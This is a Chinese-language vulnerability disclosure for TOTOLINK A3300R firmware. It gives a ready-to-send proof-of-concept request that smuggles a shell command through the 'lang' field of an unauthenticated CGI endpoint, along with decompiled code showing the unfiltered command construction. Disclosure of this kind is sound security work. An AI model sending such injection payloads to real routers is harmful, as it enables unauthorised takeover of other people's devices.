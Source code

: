 # A3300R_Firmware
# TOTOlink A3300R_Firmware V17.0.0cu.557_B20221024 命令注入

## 产品信息

设备：A3300R_Firmware 
固件版本：V17.0.0cu.557_B20221024 
制造商网站信息：https://www.totolink.net/
固件下载地址：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

## 漏洞描述

cstecgi.cgi中lang存在未授权任意访问的命令执行

### URL:http://192.168.187.136/login.html

### POC:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.187.136
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 77
Origin: http://192.168.187.136
Connection: close
Referer: http://192.168.187.136/login.html


{"lang":"`ls>/web/test2.txt`","langAutoFlag":"0","topicurl":"setLanguageCfg"}
```

注入命令“`ls>/web/test2.txt`”

检测结果。

![image-20231125222042937](https://raw.githubusercontent.com/zxsssd/testimages/main/image-20231125222042937.png)

```
GET /test2.txt HTTP/1.1
Host: 192.168.187.136
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 2

```

![image-20231125222325198](https://raw.githubusercontent.com/zxsssd/testimages/main/image-20231125222325198.png)

## 分析

shttpd中的libcscommon.so库的Uci_Set_Str函数命令参数容易受到操作系统命令注入的影响。程序调用get_uci2json的时候会在该so库内调用Uci_Set_Str造成任意命令执行，而且该接口setLanguageCfg免授权导致了未授权任意命令执行。

在shttpd的该部分调用了相关语言设置

```
  sub_40A4FC(a1, (int)"lang");
  sub_40A4FC(a1, (int)"langAutoFlag");
  Uci_Set_Str(11, "main", "lang_type");
  sub_410060(
    v37,
    v38,
    v39,
    (int)&v40,
    _40,
    _44,
    _48,
    _4C,
    a5,
    a6,
    a7,
    a8,
    a9,
    a10,
    a11,
    a12,
    a13,
    a14,
    a15,
    a16,
    a17,
    a18,
    a19,
    a20,
    a21,
    a22,
    a23,
    a24);
}
```

下面是libcscommon.so，查看Uci_Set_Str

```
int __fastcall Uci_Set_Str(int a1, int a2, int a3, int a4)
{
  int result; // $v0
  char *v8; // $a3
  char v9[1024]; // [sp+2Ch] [-408h] BYREF

  memset(v9, 0, sizeof(v9));
  result = 0;
  if ( a1 > 0 && a3 && a4 )
  {
    switch ( a1 )
    {
      case 1:
        v8 = "/tmp/cste/";
        break;
      case 2:
        v8 = "/tmp/cste/";
        break;
      case 3:
        v8 = "/tmp/cste/";
        break;
      case 4:
        v8 = "/tmp/cste/";
        break;
      case 5:
        v8 = "/tmp/cste/";
        break;
      case 6:
        v8 = "/mnt/";
        break;
      case 7:
        v8 = "/etc/config";
        break;
      case 8:
        v8 = "/etc/config";
        break;
      case 9:
        v8 = "/etc/config";
        break;
      case 10:
        v8 = "/etc/config";
        break;
      case 11:
        v8 = "/etc/config";
        break;
      case 12:
        v8 = "/etc/config";
        break;
      case 13:
        v8 = "/etc/config";
        break;
      case 14:
        v8 = "/etc/config";
        break;
      case 15:
        v8 = "/etc";
        break;
      case 16:
        v8 = "/etc/config";
        break;
      case 17:
        v8 = "/etc/config";
        break;
      case 18:
        v8 = "/etc/config";
        break;
      case 19:
        v8 = "/etc/config";
        break;
      case 20:
        v8 = "/etc/config";
        break;
      case 21:
        v8 = "/etc/config";
        break;
      case 22:
        v8 = "/etc/config";
        break;
      case 23:
        v8 = "/etc/config";
        break;
      case 24:
        v8 = "/etc/config";
        break;
      case 25:
        v8 = "/etc/config";
        break;
      case 26:
        v8 = "/etc/config";
        break;
      case 27:
        v8 = "/rom/etc/config";
        break;
      case 29:
        v8 = "/mnt/";
        break;
      default:
        v8 = "/etc/config";
        break;
    }
    snprintf(v9, 1024, "uci -c %s set %s.%s.%s=\"%s\"", v8);
    CsteSystem(v9, 0);
    return 1;
  }
  return result;
}
```

字符拼接，未过滤导致的任意命令执行
